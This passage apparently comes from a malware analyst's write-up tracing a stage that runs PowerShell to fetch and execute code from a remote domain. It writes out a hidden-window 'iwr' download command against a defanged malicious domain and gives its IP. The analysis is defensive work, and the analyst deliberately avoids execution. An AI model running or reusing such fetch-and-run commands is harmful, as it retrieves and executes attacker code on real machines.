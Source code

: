 Interesting. Looks like known malware. Trusty Windows Defender failed to block this, not that I expected it too.

![Stage 2](/images/cf_device.PNG)

Well, pretty straight forward. Calls powershell to reach out to a domain and run the response as code.

Lets probe this domain in a fresh sandbox and see what we can pull. We don't want to run the code. But it'd be nice to see what powershell script it returns.

So if we remove the ``| iex`` the ps1 script ret.urned won't be ran. So lets create our own .cmd file use Notepad++ with this in it ``powershell -w h -c iwr 'hXXps://evan-hartwell[.]space' -OutFile fat_old_payload.ps1``

![Stage 3](/images/second_payload_command_and_cap.PNG)

Alright, so when running the command to grab the payload I ran a pcap. As a result we know:
- IP of 'evan-hartwell[.]space > 194.15.216.208
- Lots and lots of bytes we're sent
- Connection was closed with TCP RST and ACK flags
